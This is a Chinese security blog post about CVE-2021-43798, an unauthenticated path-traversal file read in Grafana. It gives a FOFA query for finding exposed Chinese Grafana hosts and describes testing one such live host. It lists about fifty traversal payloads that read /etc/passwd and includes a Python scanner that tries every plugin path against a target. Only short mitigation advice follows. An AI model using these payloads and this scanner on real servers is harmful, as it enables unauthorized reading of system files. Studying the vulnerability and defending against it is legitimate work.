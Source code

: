 # CVE-2021-43798（Grafana 未授权任意文件读取漏洞）




## 漏洞描述

Grafana是一个跨平台、开源的数据可视化网络应用程序平台。用户配置连接的数据源之后，Grafana可以在网络浏览器里显示数据图表和警告。

Grafana 存在未授权任意文件读取漏洞，攻击者在未经身份验证的情况下可通过该漏洞读取主机上的任意文件。



## 影响范围

经测试，目前最新版本（Grafana v8.2.6）仍存在漏洞。





## 漏洞成因

主要是插件原因，查看代码是插件目录直接和requestedFile进行合并，没有进行过滤

参考这篇文章：https://mp.weixin.qq.com/s/dqJ3F_fStlj78S0qhQ3Ggw



## 漏洞复现

### FOFA 查询

```bash
app="Grafana" && country="CN" && body="v8."
```

在fofa上面找的一个ip进行测试，只需要简单抓包，将路径改掉，就可以读取文件内容：

![](http://image.xpshuai.cn/img/image-20220118233442024.png)

### Fuzz些插件列表

```
/public/plugins/alertGroups/../../../../../../../../etc/passwd
/public/plugins/alertlist/../../../../../../../../etc/passwd
/public/plugins/alertmanager/../../../../../../../../etc/passwd
/public/plugins/annolist/../../../../../../../../etc/passwd
/public/plugins/barchart/../../../../../../../../etc/passwd
/public/plugins/bargauge/../../../../../../../../etc/passwd
/public/plugins/canvas/../../../../../../../../etc/passwd
/public/plugins/cloudwatch/../../../../../../../../etc/passwd
/public/plugins/dashboard/../../../../../../../../etc/passwd
/public/plugins/dashlist/../../../../../../../../etc/passwd
/public/plugins/debug/../../../../../../../../etc/passwd
/public/plugins/elasticsearch/../../../../../../../../etc/passwd
/public/plugins/gauge/../../../../../../../../etc/passwd
/public/plugins/geomap/../../../../../../../../etc/passwd
/public/plugins/gettingstarted/../../../../../../../../etc/passwd
/public/plugins/grafana-azure-monitor-datasource/../../../../../../../../etc/passwd
/public/plugins/grafana/../../../../../../../../etc/passwd
/public/plugins/graph/../../../../../../../../etc/passwd
/public/plugins/graphite/../../../../../../../../etc/passwd
/public/plugins/heatmap/../../../../../../../../etc/passwd
/public/plugins/histogram/../../../../../../../../etc/passwd
/public/plugins/influxdb/../../../../../../../../etc/passwd
/public/plugins/jaeger/../../../../../../../../etc/passwd
/public/plugins/live/../../../../../../../../etc/passwd
/public/plugins/logs/../../../../../../../../etc/passwd
/public/plugins/loki/../../../../../../../../etc/passwd
/public/plugins/mixed/../../../../../../../../etc/passwd
/public/plugins/mssql/../../../../../../../../etc/passwd
/public/plugins/mysql/../../../../../../../../etc/passwd
/public/plugins/news/../../../../../../../../etc/passwd
/public/plugins/nodeGraph/../../../../../../../../etc/passwd
/public/plugins/opentsdb/../../../../../../../../etc/passwd
/public/plugins/piechart/../../../../../../../../etc/passwd
/public/plugins/pluginlist/../../../../../../../../etc/passwd
/public/plugins/postgres/../../../../../../../../etc/passwd
/public/plugins/prometheus/../../../../../../../../etc/passwd
/public/plugins/stat/../../../../../../../../etc/passwd
/public/plugins/state-timeline/../../../../../../../../etc/passwd
/public/plugins/status-history/../../../../../../../../etc/passwd
/public/plugins/table-old/../../../../../../../../etc/passwd
/public/plugins/table/../../../../../../../../etc/passwd
/public/plugins/tempo/../../../../../../../../etc/passwd
/public/plugins/testdata/../../../../../../../../etc/passwd
/public/plugins/text/../../../../../../../../etc/passwd
/public/plugins/timeseries/../../../../../../../../etc/passwd
/public/plugins/welcome/../../../../../../../../etc/passwd
/public/plugins/xychart/../../../../../../../../etc/passwd
/public/plugins/zipkin/../../../../../../../../etc/passwd
```



```
alertmanager
grafana
loki
postgres
grafana-azure-monitor-datasource
mixed
prometheus
cloudwatch
graphite
mssql
tempo
dashboard
influxdb
mysql
testdata
elasticsearch
jaeger
opentsdb
zipkin
alertGroups
bargauge
debug
graph
live
piechart
status-history
timeseries
alertlist
candlestick
gauge
heatmap
logs
pluginlist
table
welcome
annolist
canvas
geomap
histogram
news
stat
table-old
xychart
barchart
dashlist
gettingstarted
icon
nodeGraph
state-timeline
text
```



### 脚本

```python
import requests
import sys
 
args = str(sys.argv[1])

headers = {
    "User-Agent":"Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:80.0) Gecko/20100101 Firefox/80.0",
}

with open("./paload.txt", "r+") as f:	# paload存放的插件名
    for line in f:
        url = "http://"+args+"/public/plugins/"+str.rstrip(line)+"/../../../../../../../../../../../etc/passwd"

        req = requests.post(url, headers=headers,timeout=(3,7),allow_redirects=False)
        a=req.text
        str1='root'
        if a in str1:
            print('确认存在'+str.rstrip(line)+'路径,并存在漏洞!')
            print(url)
        else:
            print('不存在漏洞!')
```

脚本改进：多线程+批量url检测



## 漏洞分析

暂未进行

参考：https://mp.weixin.qq.com/s/dqJ3F_fStlj78S0qhQ3Ggw



## 修复建议

请关注厂商主页更新：[Grafana: The open observability platform | Grafana Labs](https://grafana.com/)

临时修复建议：

1、通过防火墙等安全设备设置访问策略，设置白名单访问。

2、如非必要，禁止公网访问该系统。


---

> 作者: [剑胆琴心](http://shuai06.github.io)  
> URL: https://shuai06.github.io/cve-2021-43798grafana-%E6%9C%AA%E6%8E%88%E6%9D%83%E4%BB%BB%E6%84%8F%E6%96%87%E4%BB%B6%E8%AF%BB%E5%8F%96%E6%BC%8F%E6%B4%9E/  

